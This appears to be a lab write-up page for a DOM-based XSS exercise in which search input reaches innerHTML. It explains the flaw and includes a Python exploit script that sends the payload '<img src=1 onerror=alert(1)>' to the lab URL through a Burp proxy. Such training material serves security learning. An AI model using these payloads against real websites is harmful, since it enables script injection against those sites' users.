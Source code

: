 ```yaml
---
title: 'XSS Lab 4'
description: 'DOM-based cross-site scripting using innerHTML and location.search'
---
```



## DOM XSS in innerHTML sink using source location.search

<div style="text-align: justify;">
  This lab demonstrates a DOM-based cross-site scripting (XSS) vulnerability. The search blog functionality assigns user-controlled data from `location.search` directly to `innerHTML` of a div element. This allows attackers to inject arbitrary HTML and JavaScript, which is executed in the context of the user’s browser. Successfully exploiting this vulnerability involves injecting a payload that triggers the `alert()` function.
</div>

<Aside>
  Start Burp Suite before running the script — it intercepts requests and allows monitoring of the search parameter.
</Aside>

### How Exploit Works
- The `search` parameter from the URL is used unsafely in `innerHTML`.
- By injecting a payload like `<img src=1 onerror=alert(1)>`, the `onerror` event is triggered when the browser fails to load the image.
- This executes the JavaScript `alert(1)` function.
- The lab is solved when the alert executes successfully.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3

# Disable SSL warnings for Burp Suite
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Set Burp Suite proxy
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    # Check if Burp Suite is running and listening on the configured proxy.

    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def exploit_xss(url, payload):
    # Exploit XSS in search parameter.
        uri = f"/?search={payload}"
        res = requests.get(url + uri, verify=False, proxies=proxies)
        res.raise_for_status()
        session = requests.Session()
        res = session.get(url, verify=False, proxies=proxies)
        if "Congratulations" in res.text:
            print("[+] Lab solved 🎉")
            return True
        else:
            print("[-] lab not solved.")

def main():
    # Entry point of the script.

    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()

    # Step 1: Check Burp Suite
    check_burp()

    # Step 2: Define XSS payload
    payload = '<img src=1 onerror=alert(1)>'

    # Step 3: Attempt exploitation
    print("[*] Attempting XSS...")
    if exploit_xss(url, payload):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```